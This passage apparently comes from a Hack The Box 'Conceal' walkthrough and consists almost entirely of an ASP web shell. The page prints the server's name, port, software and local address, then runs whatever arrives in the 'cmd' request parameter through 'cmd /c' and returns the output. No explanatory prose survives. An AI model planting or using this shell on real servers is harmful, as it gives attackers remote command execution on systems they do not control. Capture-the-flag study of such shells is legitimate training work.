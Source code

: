 ```
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```
![](/images/hackthebox/conceal/17.png)
<br>
<br>